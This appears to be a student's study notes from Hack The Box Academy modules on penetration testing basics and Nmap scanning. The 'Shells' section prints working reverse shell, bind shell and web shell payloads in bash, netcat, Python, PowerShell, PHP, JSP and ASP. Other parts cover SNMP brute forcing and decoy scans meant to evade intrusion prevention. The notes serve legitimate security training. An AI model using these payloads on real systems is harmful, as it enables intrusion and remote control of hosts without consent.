

## Penetration Testing Overview
A Penetration Test (Pentest) is an organized, targeted, and authorized attack attempt to test IT infrastructure and its defenders to determine their susceptibility to IT security vulnerabilities. 

### Precautionary Measures
- Obtain written consent from the owner or authorized representative of the computer or network being tested
- Conduct the testing within the scope of the consent obtained only and respect any limitations specified
- Take measures to prevent causing damage to the systems or networks being tested
- Do not access, use or disclose personal data or any other information obtained during the testing without permission
- Do not intercept electronic communications without the consent of one of the parties to the communication
- Do not conduct testing on systems or networks that are covered by the Health Insurance Portability and Accountability Act (HIPAA) without proper authorization

### Pre-Engagement Documents
| Document | Timing for Creation |
|----------|---------------------|
| 1. Non-Disclosure Agreement (NDA) | After Initial Contact |
| 2. Scoping Questionnaire | Before the Pre-Engagement Meeting |
| 3. Scoping Document | During the Pre-Engagement Meeting |
| 4. Penetration Testing Proposal (Contract/Scope of Work (SoW)) | During the Pre-engagement Meeting |
| 5. Rules of Engagement (RoE) | Before the Kick-Off Meeting |
| 6. Contractors Agreement (Physical Assessments) | Before the Kick-Off Meeting |
| 7. Reports | During and after the conducted Penetration Test |

### Critical Scoping Questions
- How many expected live hosts?	
- How many IPs/CIDR ranges in scope?	
- How many Domains/Subdomains are in scope?	
- How many wireless SSIDs in scope?	
- How many web/mobile applications? If testing is authenticated, how many roles (standard user, admin, etc.)?	
- For a phishing assessment, how many users will be targeted? Will the client provide a list, or we will be required to gather this list via OSINT?	
- If the client is requesting a Physical Assessment, how many locations? If multiple sites are in-scope, are they geographically dispersed?	
- What is the objective of the Red Team Assessment? Are any activities (such as phishing or physical security attacks) out of scope?	
- Is a separate Active Directory Security Assessment desired?	
- Will network testing be conducted from an anonymous user on the network or a standard domain user?	
- Do we need to bypass Network Access Control (NAC)?

### Types of Penetration Testing
|Type | Information Provided |
|-----|----------------------|
|Blackbox | Minimal. Only the essential information, such as IP addresses and domains, is provided.|
|Greybox | Extended. In this case, we are provided with additional information, such as specific URLs, hostnames, subnets, and similar.|
|Whitebox | Maximum. Here everything is disclosed to us. This gives us an internal view of the entire structure, which allows us to prepare an attack using internal information. We may be given detailed configurations, admin credentials, web application source code, etc.|
|Red-Teaming | May include physical testing and social engineering, among other things. Can be combined with any of the above types.|
|Purple-Teaming | It can be combined with any of the above types. However, it focuses on working closely with the defenders.|

### Penetration Testing Stages

|Stage | Description|
|------|------------|
|1. Pre-Engagement | The first step is to create all the necessary documents in the pre-engagement phase, discuss the assessment objectives, and clarify any questions.|
|2. Information Gathering | Once the pre-engagement activities are complete, we investigate the company's existing website we have been assigned to assess. We identify the technologies in use and learn how the web application functions.|
|3. Vulnerability Assessment | With this information, we can look for known vulnerabilities and investigate questionable features that may allow for unintended actions.|
|4. Exploitation | Once we have found potential vulnerabilities, we prepare our exploit code, tools, and environment and test the webserver for these potential vulnerabilities.|
|5. Post-Exploitation | Once we have successfully exploited the target, we jump into information gathering and examine the webserver from the inside. If we find sensitive information during this stage, we try to escalate our privileges (depending on the system and configurations).|
|6. Lateral Movement | If other servers and hosts in the internal network are in scope, we then try to move through the network and access other hosts and servers using the information we have gathered.|
|7. Proof-of-Concept | We create a proof-of-concept that proves that these vulnerabilities exist and potentially even automate the individual steps that trigger these vulnerabilities.|
|8. Post-Engagement | Finally, the documentation is completed and presented to our client as a formal report deliverable. Afterward, we may hold a report walkthrough meeting to clarify anything about our testing or results and provide any needed support to personnel tasked with remediating our findings.|

### Vulnerability Analysis Types
| Analysis Type | Description | 
|---------------|-------------|
| Descriptive | Descriptive analysis is essential in any data analysis. On the one hand, it describes a data set based on individual characteristics. It helps to detect possible errors in data collection or outliers in the data set. | 
| Diagnostic | Diagnostic analysis clarifies conditions' causes, effects, and interactions. Doing so provides insights that are obtained through correlations and interpretation. We must take a backward-looking view, similar to descriptive analysis, with the subtle difference that we try to find reasons for events and developments. | 
| Predictive | By evaluating historical and current data, predictive analysis creates a predictive model for future probabilities. Based on the results of descriptive and diagnostic analyses, this method of data analysis makes it possible to identify trends, detect deviations from expected values at an early stage, and predict future occurrences as accurately as possible. | 
| Prescriptive | Prescriptive analytics aims to narrow down what actions to take to eliminate or prevent a future problem or trigger a specific activity or process. | 


### Common Vulnerabilities and Exposures (CVEs) Research
- [CVEdetails](https://www.cvedetails.com/)
- [Exploit DB](https://www.exploit-db.com/)
- [Vulners](https://vulners.com/)
- [Packet Storm Security](https://packetstormsecurity.com/)
- [NIST](https://nvd.nist.gov/vuln/search?execution=e2s1)


### Practicing Steps
- 2x Modules (one technical, one offensive)
    1.	Read the module
    2.	Practice the exercises
    3.	Complete the module
    4.	Start the module exercises from scratch
    5.	While solving the exercises again, take notes
    6.	Create technical documentation based on the notes
    7.	Create non-technical documentation based on the notes
- 3x Retired Machines (two easy, one medium)
    1.	Get the user flag on your own
    2.	Get the root flag on your own
    3.	Write your technical documentation
    4.	Write your non-technical documentation
    5.	Compare your notes with the official write-up (or a community write-up if you don't have a VIP subscription
    6.	Create a list of information you have missed

    7.	Watch Ippsec's walkthrough and compare it with your notes
    8.	Expand your notes and documentation by adding the missed parts
- 5x Active Machines (two easy, two medium, one hard)
    1.	Get the user and root flag
    2.	Write your technical documentation
    3.	Write your non-technical documentation
    4.	Have it proofread by technical and non-technical persons
- 1x Pro Lab / Endgame


### Complete
[Link of Completion](https://academy.hackthebox.com/achievement/713396/90)

&nbsp;

-----

&nbsp;

## Getting Started
- `CIA triad`: "confidentiality, integrity, and availability of data"
- A `hypervisor` is software that allows us to create and run virtual machines (VMs).
- The `ISO` file is essentially just a CD-ROM that can be mounted within our hypervisor of choice to build the VM by installing the operating system ourselves. An `ISO` gives us more room for customization, e.g., keyboard layout, locale, desktop environment switch, custom partitioning, etc., and therefore a more granular approach when setting up our attack VM.
- The `OVA` file is a pre-built virtual appliance that contains an OVF XML file that specifies the VM hardware settings and a `VMDK`, which is the virtual disk that the operating system is installed on. An OVA is pre-built and therefore can be rapidly deployed to get up and running quicker.
- A `virtual private network (VPN)` allows us to connect to a private (internal) network and access hosts and resources as if we were directly connected to the target private network. It is a secured communications channel over shared public networks to connect to a private network (i.e., an employee remotely connecting to their company's corporate network from their home). VPNs provide a degree of privacy and security by encrypting communications over the channel to prevent eavesdropping and access to data traversing the channel.
    - `netstat -rn` will show us the networks accessible via the VPN.

### Common Ports
| Port(s) | Protocol |
|---------|----------|
| 20/21 (TCP) | FTP |
| 22 (TCP) | SSH |
| 23 (TCP) | Telnet |
| 25 (TCP) | SMTP |
| 80 (TCP) | HTTP |
| 161 (TCP/UDP) | SNMP |
| 389 (TCP/UDP) | LDAP |
| 443 (TCP) | SSL/TLS (HTTPS) |
| 445 (TCP)	 | SMB |
| 3389 (TCP) | RDP |

### Tools
- `Secure Shell (SSH)` is a network protocol that runs on port 22 by default and provides users such as system administrators a secure way to access a computer remotely. 
- `Netcat`, `ncat`, or `nc`, is an excellent network utility for interacting with TCP/UDP ports. There's another Windows alternative to netcat coded in PowerShell called [`PowerCat`](https://github.com/besimorhino/powercat).
- Another similar network utility is [`socat`](https://linux.die.net/man/1/socat), which has a few features that netcat does not support, like forwarding ports and connecting to serial devices. Socat can also be used to upgrade a shell to a [fully interactive TTY](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/#method-2-using-socat).
- Terminal multiplexers, like `tmux` or `Screen`, are great utilities for expanding a standard Linux terminal's features, like having multiple windows within one terminal and jumping between them. 
- `Vim` is a great text editor that can be used for writing code or editing text files on Linux systems.
-`nmap` for network enumeration and vulnerability scanning.
    - `nmap -sV --script=banner -p<port> <host(s)>` and `nc -nv <host> <port>`can be used for `Banner Grabbing`
- A tool that can enumerate and interact with SMB shares is `smbclient`.
- SNMP Community strings provide information and statistics about a router or device, helping us gain access to it. The manufacturer default community strings of public and private are often unchanged. In SNMP versions 1 and 2c, access is controlled using a plaintext community string, and if we know the name, we can gain access to it. Encryption and authentication were only added in SNMP version 3. Much information can be gained from SNMP. Examination of process parameters might reveal credentials passed on the command line, which might be possible to reuse for other externally accessible services given the prevalence of password reuse in enterprise environments. Routing information, services bound to additional interfaces, and the version of installed software can also be revealed.
```sh
woadey@htb[/htb]$ snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0

iso.3.6.1.2.1.1.5.0 = STRING: "gs-svcscan"

woadey@htb[/htb]$ snmpwalk -v 2c -c private  10.129.42.253 

Timeout: No Response from 10.129.42.253
```
- A tool such as [`onesixtyone`](https://github.com/trailofbits/onesixtyone) can be used to brute force the community string names using a dictionary file of common community strings such as the dict.txt file included in the GitHub repo for the tool.
```sh
woadey@htb[/htb]$ onesixtyone -c dict.txt 10.129.42.254

Scanning 1 hosts, 51 communities
10.129.42.254 [public] Linux gs-svcscan 5.4.0-66-generic #74-Ubuntu SMP Wed Jan 27 22:54:38 UTC 2021 x86_64
```
- We can use a tool such as [`ffuf`](https://github.com/ffuf/ffuf) or [`GoBuster`](https://github.com/OJ/gobuster) to perform this directory enumeration.
```sh
woadey@htb[/htb]$ gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.121/
[+] Threads:        10
[+] Wordlist:       /usr/share/dirb/wordlists/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/12/11 21:47:25 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/index.php (Status: 200)
/server-status (Status: 403)
/wordpress (Status: 301)
===============================================================
2020/12/11 21:47:46 Finished
===============================================================
```
- We can use `cURL` to retrieve server header information from the command line. `cURL` can also pull down files.
```sh
woadey@htb[/htb]$ curl -IL https://www.inlanefreight.com

HTTP/1.1 200 OK
Date: Fri, 18 Dec 2020 22:24:05 GMT
Server: Apache/2.4.29 (Ubuntu)
Link: <https://www.inlanefreight.com/index.php/wp-json/>; rel="https://api.w.org/"
Link: <https://www.inlanefreight.com/>; rel=shortlink
Content-Type: text/html; charset=UTF-8

woadey@htb[/htb]$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh

100  144k  100  144k    0     0  176k      0 --:--:-- --:--:-- --:--:-- 176k
```
- Another handy tool is [`EyeWitness`](https://github.com/FortyNorthSecurity/EyeWitness), which can be used to take screenshots of target web applications, fingerprint them, and identify possible default credentials.
- We can extract the version of web servers, supporting frameworks, and applications using the command-line tool `whatweb`.
```sh
woadey@htb[/htb]$ whatweb 10.10.10.121

http://10.10.10.121 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], Email[license@php.net], HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.121], Title[PHP 7.4.3 - phpinfo()]

woadey@htb[/htb]$ whatweb --no-errors 10.10.10.0/24

http://10.10.10.11 [200 OK] Country[RESERVED][ZZ], HTTPServer[nginx/1.14.1], IP[10.10.10.11], PoweredBy[Red,nginx], Title[Test Page for the Nginx HTTP Server on Red Hat Enterprise Linux], nginx[1.14.1]
http://10.10.10.100 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.100], Title[File Sharing Service]
http://10.10.10.121 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], Email[license@php.net], HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.121], Title[PHP 7.4.3 - phpinfo()]
http://10.10.10.247 [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[contact@cross-fit.htb], Frame, HTML5, HTTPServer[OpenBSD httpd], IP[10.10.10.247], JQuery[3.3.1], PHP[7.4.12], Script, Title[Fine Wines], X-Powered-By[PHP/7.4.12], X-UA-Compatible[ie=edge]
```
- One method to transfer files would be using `scp`, granted we have obtained ssh user credentials on the remote host.

```sh
woadey@htb[/htb]$ scp linenum.sh user@remotehost:/tmp/linenum.sh

user@remotehost's password: *********
linenum.sh
```
- In some cases, we may not be able to transfer the file. For example, the remote host may have firewall protections that prevent us from downloading a file from our machine. In this type of situation, we can use a simple trick to `base64` encode the file into `base64` format, and then we can paste the `base64` string on the remote server and decode it.

```sh
woadey@htb[/htb]$ base64 shell -w 0

f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU
```

```sh
user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```

### Shells
- A `Reverse Shell` is the most common type of shell, as it is the quickest and easiest method to obtain control over a compromised host. [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) has many reverse shell payloads:

__Linux Victim__
```sh
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
...or...
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

__Windows Victim__
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()" 
```
- Another type of shell is a `Bind Shell`. Unlike a Reverse Shell that connects to us, we will have to connect to it on the targets' listening port. Once we execute a Bind Shell Command, it will start listening on a port on the remote host and bind that host's shell, i.e., Bash or PowerShell, to that port. We have to connect to that port with netcat, and we will get control through a shell on that system. [Payload All the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md) again has payloads for this. 

__Linux Victim__
```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
...or...
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

__Windows Victim__
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```
- The final type of shell we have is a `Web Shell`. A `Web Shell` is typically a web script, i.e., PHP or ASPX, that accepts our command through HTTP request parameters such as GET or POST request parameters, executes our command, and prints its output back on the web page.

__php__
```php
<?php system($_REQUEST["cmd"]); ?>
```
__jsp__
```php
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```
__asp__
```php
<% eval request("cmd") %>
```

### PrivEsc Checklists
Once we gain initial access to a box, we want to thoroughly enumerate the box to find any potential vulnerabilities we can exploit to achieve a higher privilege level. We can find many checklists and cheat sheets online that have a collection of checks we can run and the commands to run these checks. One excellent resource is [HackTricks](https://book.hacktricks.xyz/), which has an excellent checklist for both [Linux](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist) and [Windows](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation) local privilege escalation. Another excellent repository is [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings), which also has checklists for both [Linux](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md) and [Windows](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md). We must start experimenting with various commands and techniques and get familiar with them to understand multiple weaknesses that can lead to escalating our privileges.

### Enumeration Scripts
Many of the above commands may be automatically run with a script to go through the report and look for any weaknesses. We can run many scripts to automatically enumerate the server by running common commands that return any interesting findings. Some of the common Linux enumeration scripts include [LinEnum](https://github.com/rebootuser/LinEnum.git) and [linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker), and for Windows include [Seatbelt](https://github.com/GhostPack/Seatbelt) and [JAWS](https://github.com/411Hall/JAWS).

Another useful tool we may use for server enumeration is the [Privilege Escalation Awesome Scripts SUITE (PEASS)](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite), as it is well maintained to remain up to date and includes scripts for enumerating both Linux and Windows.

[GTFOBins](https://gtfobins.github.io/) contains a list of commands and how they can be exploited through `sudo`

[LOLBAS](https://lolbas-project.github.io/#) also contains a list of Windows applications which we may be able to leverage to perform certain functions, like downloading files or executing commands in the context of a privileged user.

### Practice Resources

|Platform | Description|
|----------|----------|
| [OWASP Juice Shop](https://owasp.org/www-project-juice-shop/)	| Is a modern vulnerable web application written in Node.js, Express, and Angular which showcases the entire [OWASP Top Ten](https://owasp.org/www-project-top-ten) along with many other real-world application security flaws. |
| [Metasploitable 2](https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide/)	| Is a purposefully vulnerable Ubuntu Linux VM that can be used to practice enumeration, automated, and manual exploitation. |
| [Metasploitable 3](https://github.com/rapid7/metasploitable3)	| Is a template for building a vulnerable Windows VM configured with a wide range of [vulnerabilities](https://github.com/rapid7/metasploitable3/wiki/Vulnerabilities). |
| [DVWA](https://github.com/digininja/DVWA)	| This is a vulnerable PHP/MySQL web application showcasing many common web application vulnerabilities with varying degrees of difficulty. |
| [IppSec](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA) | Provides an extremely in-depth walkthrough of every retired HTB box packed full of insight from his own experience, as well as videos on various techniques. |
| [VbScrub](https://www.youtube.com/channel/UCpoyhjwNIWZmsiKNKpsMAQQ) | Provides HTB videos as well as videos on techniques, primarily focusing on Active Directory exploitation. |
| [STÖK](https://www.youtube.com/channel/UCQN2DsjnYH60SFBIA6IkNwg) | Provides videos on various infosec related topics, mainly focusing on bug bounties and web application penetration testing. |
| [LiveOverflow](https://www.youtube.com/channel/UClcE-kVhqyiHCcjYwcpfj9w) | Provides videos on a wide variety of technical infosec topics. |

### First Attack

For an entire write-up of this box, see [HTB Writeup: Nibbles](/posts/htb/easy/nibbles). 

### Complete

[Link of Completion](https://academy.hackthebox.com/achievement/713396/77)

&nbsp;

-----

&nbsp;

## Network Enumeration with Nmap

### Nmap Architecture

- Host discovery
- Port scanning
- Service enumeration and detection
- OS detection
- Scriptable interaction with the target service (Nmap Scripting Engine)

### TCP-SYN Scan

The TCP-SYN scan (`-sS`) is one of the default settings unless we have defined otherwise and is also one of the most popular scan methods. This scan method makes it possible to scan several thousand ports per second. The TCP-SYN scan sends one packet with the SYN flag and, therefore, never completes the three-way handshake, which results in not establishing a full TCP connection to the scanned port.

- If our target sends an `SYN-ACK` flagged packet back to the scanned port, Nmap detects that the port is open.
- If the packet receives an `RST` flag, it is an indicator that the port is closed.
- If Nmap does not receive a packet back, it will display it as filtered. Depending on the firewall configuration, certain packets may be dropped or ignored by the firewall.

### Scan Network Range

```sh
woadey@htb[/htb]$ sudo nmap 10.129.2.0/24 -sn -oA tnet | grep for | cut -d" " -f5

10.129.2.4
10.129.2.10
10.129.2.11
10.129.2.18
10.129.2.19
10.129.2.20
10.129.2.28
```

| Scanning Options | Description |
| ---------------- | ------------|
| `10.129.2.0/24`| Target network range. |
| `-sn` | Disables port scanning. |
| `-oA tnet` | Stores the results in all formats starting with the name 'tnet'. |

### Scan IP List

```sh
woadey@htb[/htb]$ sudo nmap -sn -oA tnet -iL hosts.lst | grep for | cut -d" " -f5

10.129.2.18
10.129.2.19
10.129.2.20
```

|Scanning Options | Description|
| --------------- | ---------- |
|`-sn` | Disables port scanning.|
|`-oA tnet` | Stores the results in all formats starting with the name 'tnet'.|
|`-iL `| Performs defined scans against targets in provided 'hosts.lst' list.|

### Scan Multiple IPs

```sh
woadey@htb[/htb]$ sudo nmap -sn -oA tnet 10.129.2.18 10.129.2.19 10.129.2.20| grep for | cut -d" " -f5

10.129.2.18
10.129.2.19
10.129.2.20
```

```sh
woadey@htb[/htb]$ sudo nmap -sn -oA tnet 10.129.2.18-20| grep for | cut -d" " -f5

10.129.2.18
10.129.2.19
10.129.2.20
```

### Scan Single IP

```sh
woadey@htb[/htb]$ sudo nmap 10.129.2.18 -sn -oA host 

Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-14 23:59 CEST
Nmap scan report for 10.129.2.18
Host is up (0.087s latency).
MAC Address: DE:AD:00:00:BE:EF
Nmap done: 1 IP address (1 host up) scanned in 0.11 seconds
```

| Scanning Options | Description |
| ---------------- | ----------- |
| `10.129.2.18` | Performs defined scans against the target. |
| `-sn `| Disables port scanning. |
| `-oA host` | Stores the results in all formats starting with the name 'host'. |

**If we disable port scan (`-sn`), Nmap automatically ping scan with ICMP Echo Requests (`-PE`). Once such a request is sent, we usually expect an ICMP reply if the pinging host is alive. The more interesting fact is that our previous scans did not do that because before Nmap could send an ICMP echo request, it would send an ARP ping resulting in an ARP reply. We can confirm this with the "`--packet-trace`" option. To ensure that ICMP echo requests are sent, we also define the option (`-PE`) for this.*

```sh
woadey@htb[/htb]$ sudo nmap 10.129.2.18 -sn -oA host -PE --packet-trace 

Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-15 00:08 CEST
SENT (0.0074s) ARP who-has 10.129.2.18 tell 10.10.14.2
RCVD (0.0309s) ARP reply 10.129.2.18 is-at DE:AD:00:00:BE:EF
Nmap scan report for 10.129.2.18
Host is up (0.023s latency).
MAC Address: DE:AD:00:00:BE:EF
Nmap done: 1 IP address (1 host up) scanned in 0.05 seconds
```

| Scanning Options | Description | 
| ---------------- | ----------- |
| `10.129.2.18` | Performs defined scans against the target. | 
| `-sn` | Disables port scanning. | 
| `-oA host` | Stores the results in all formats starting with the name 'host'. | 
| `-PE `| Performs the ping scan by using 'ICMP Echo requests' against the target. | 
| `--packet-trace `| Shows all packets sent and received. |

```sh
woadey@htb[/htb]$ sudo nmap 10.129.2.18 -sn -oA host -PE --reason 

Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-15 00:10 CEST
SENT (0.0074s) ARP who-has 10.129.2.18 tell 10.10.14.2
RCVD (0.0309s) ARP reply 10.129.2.18 is-at DE:AD:00:00:BE:EF
Nmap scan report for 10.129.2.18
Host is up, received arp-response (0.028s latency).
MAC Address: DE:AD:00:00:BE:EF
Nmap done: 1 IP address (1 host up) scanned in 0.03 seconds
```

| Scanning Options | Description |
| ---------------- | ----------- |
| `10.129.2.18` | Performs defined scans against the target. |
| `-sn` | Disables port scanning. |
| `-oA host` | Stores the results in all formats starting with the name 'host'. |
| `-PE `| Performs the ping scan by using 'ICMP Echo requests' against the target. |
| `--reason` | Displays the reason for specific result. |

### Nmap Cheatsheet

**Scanning Options**

| Nmap Option | Description |
|---|----|
| `10.10.10.0/24` | Target network range. |
| `-sn` | Disables port scanning. |
| `-Pn` | Disables ICMP Echo Requests |
| `-n` | Disables DNS Resolution. |
| `-PE` | Performs the ping scan by using ICMP Echo Requests against the target. |
| `--packet-trace` | Shows all packets sent and received. |
| `--reason` | Displays the reason for a specific result. |
| `--disable-arp-ping` | Disables ARP Ping Requests. |
| `--top-ports=<num>` | Scans the specified top ports that have been defined as most frequent.  |
| `-p-` | Scan all ports. |
| `-p22-110` | Scan all ports between 22 and 110. |
| `-p22,25` | Scans only the specified ports 22 and 25. |
| `-F` | Scans top 100 ports. |
| `-sS` | Performs an TCP SYN-Scan. |
| `-sA` | Performs an TCP ACK-Scan. |
| `-sU` | Performs an UDP Scan. |
| `-sV` | Scans the discovered services for their versions. |
| `-sC` | Perform a Script Scan with scripts that are categorized as "default". |
| `--script <script>` | Performs a Script Scan by using the specified scripts. |
| `-O` | Performs an OS Detection Scan to determine the OS of the target. |
| `-A` | Performs OS Detection, Service Detection, and traceroute scans. |
| `-D RND:5` | Sets the number of random Decoys that will be used to scan the target. |
| `-e` | Specifies the network interface that is used for the scan. |
| `-S 10.10.10.200` | Specifies the source IP address for the scan. |
| `-g` | Specifies the source port for the scan. |
| `--dns-server <ns>` | DNS resolution is performed by using a specified name server. |

**Output Options**

| Nmap Option | Description |
|---|----|
| `-oA filename` | Stores the results in all available formats starting with the name of "filename". |
| `-oN filename` | Stores the results in normal format with the name "filename". |
| `-oG filename` | Stores the results in "grepable" format with the name of "filename". |
| `-oX filename` | Stores the results in XML format with the name of "filename". |

**Performance Options**

| Nmap Option | Description |
|---|----|
| `--max-retries <num>` | Sets the number of retries for scans of specific ports. |
| `--stats-every=5s` | Displays scan's status every 5 seconds. |
| `-v/-vv` | Displays verbose output during the scan. |
| `--initial-rtt-timeout 50ms` | Sets the specified time value as initial RTT timeout. |
| `--max-rtt-timeout 100ms` | Sets the specified time value as maximum RTT timeout. |
| `--min-rate 300` | Sets the number of packets that will be sent simultaneously. |
| `-T <0-5>` | Specifies the specific timing template. |


### Host and Port Scanning

| State | Description | 
| ----- | ----------- |
| open | This indicates that the connection to the scanned port has been established. These connections can be TCP connections, UDP datagrams as well as SCTP associations. | 
| closed | When the port is shown as closed, the TCP protocol indicates that the packet we received back contains an RST flag. This scanning method can also be used to determine if our target is alive or not. | 
| filtered | Nmap cannot correctly identify whether the scanned port is open or closed because either no response is returned from the target for the port or we get an error code from the target. | 
| unfiltered | This state of a port only occurs during the TCP-ACK scan and means that the port is accessible, but it cannot be determined whether it is open or closed. | 
| open\|filtered | If we do not get a response for a specific port, Nmap will set it to that state. This indicates that a firewall or packet filter may protect the port. | 
| closed\|filtered | This state only occurs in the IP ID idle scans and indicates that it was impossible to determine if the scanned port is closed or filtered by a firewall. | 

### Nmap Scripting Engine (NSE)

| Category | Description |
| -------- | ----------- |
| auth | Determination of authentication credentials. |
| broadcast | Scripts, which are used for host discovery by broadcasting and the discovered hosts, can be automatically added to the remaining scans. |
| brute | Executes scripts that try to log in to the respective service by brute-forcing with credentials. |
| default | Default scripts executed by using the `-sC` option. |
| discovery | Evaluation of accessible services. |
| dos | These scripts are used to check services for denial of service vulnerabilities and are used less as it harms the services. |
| exploit | This category of scripts tries to exploit known vulnerabilities for the scanned port. |
| external | Scripts that use external services for further processing. |
| fuzzer | This uses scripts to identify vulnerabilities and unexpected packet handling by sending different fields, which can take much time. |
| intrusive | Intrusive scripts that could negatively affect the target system. |
| malware | Checks if some malware infects the target system. |
| safe | Defensive scripts that do not perform intrusive and destructive access. |
| version | Extension for service detection. |
| vuln | Identification of specific vulnerabilities. |

### Decoys

There are cases in which administrators block specific subnets from different regions in principle. This prevents any access to the target network. Another example is when IPS should block us. For this reason, the Decoy scanning method (-D) is the right choice. With this method, Nmap generates various random IP addresses inserted into the IP header to disguise the origin of the packet sent. With this method, we can generate random (RND) a specific number (for example: 5) of IP addresses separated by a colon (:). Our real IP address is then randomly placed between the generated IP addresses. In the next example, our real IP address is therefore placed in the second position. Another critical point is that the decoys must be alive. Otherwise, the service on the target may be unreachable due to SYN-flooding security mechanisms.

**Random Source IPs**
```sh
woadey@htb[/htb]$ sudo nmap 10.129.2.28 -p 80 -sS -Pn -n --disable-arp-ping --packet-trace -D RND:5

Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-21 16:14 CEST
